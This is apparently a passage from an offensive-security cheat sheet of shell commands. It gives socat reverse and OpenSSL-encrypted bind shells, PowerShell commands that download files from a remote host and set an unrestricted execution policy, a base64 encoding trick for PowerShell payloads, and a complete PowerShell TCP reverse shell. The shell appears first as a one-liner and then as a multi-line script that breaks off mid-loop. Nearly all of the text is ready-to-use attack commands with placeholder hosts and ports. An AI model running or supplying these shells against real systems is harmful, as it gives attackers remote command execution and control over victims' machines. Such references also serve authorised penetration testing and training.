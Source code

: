 **Reverse Shell**
```
socat -d -d TCP4-LISTEN:<PORT> STDOUT                                     User 1, create a listener
socat TCP4:<IP>:<PORT> EXEC:/bin/bash                                     User 2, send reverse shell to User 1
```

**Encrypted bind shell with OpenSSL**
```
$ openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 365 -out bind_shell.crt

  req: initiate a new certificate signing request
  -newkey: generate a new private key
  rsa:2048: use RSA encryption with a 2,048-bit key length.
  -nodes: store the private key without passphrase protection
  -keyout: save the key to a file
  -x509: output a self-signed certificate instead of a certificate request
  -days: set validity period in days
  -out: save the certificate to a file

$ cat bind_shell.key bind_shell.crt > bind_shell.pem
$ sudo socat OPENSSL-LISTEN:<PORT>,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash    Create an encrypted bind shell
$ socat - OPENSSL:<IP>:<PORT>,verify=0                                                 Connect to the encrypted bind shell
```

## PowerShell

**Misc Commands**
```PowerShell
Set-ExecutionPolicy Unrestricted                                                                        Set the PowerShell execution policy
Get-ExecutionPolicy                                                                                     Get value for ExecutionPolicy
(new-object System.Net.WebClient).DownloadFile('http://<IP>/<filename>','C:\<DIR>\<filename>')          Download a file
iwr -uri http://<IP>/<filename> -Outfile <filename>                                                     Download a file
powershell -c "command"                                                                                 The -c option will execute the supplied command as if it were typed at the PowerShell prompt
```

**Encode PowerShell from the command line**
- ```PowerShell
  echo "iex(cmd)" | iconv -t UTF-16LE | base64 -w 0 | xclip -sel clip
  ```
  - [[Reference](https://twitter.com/whitecyberduck/status/1660095924931010560?s=46)]

**Send a reverse shell with PowerShell**
- ```PowerShell
  powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```
- ```PowerShell
  $client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);
  $stream = $client.GetStream();
  [byte[]]$bytes = 0..65535|%{0};
  while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
  	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  	$sendback = (iex $data 2>&1 | Out-String );
  	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
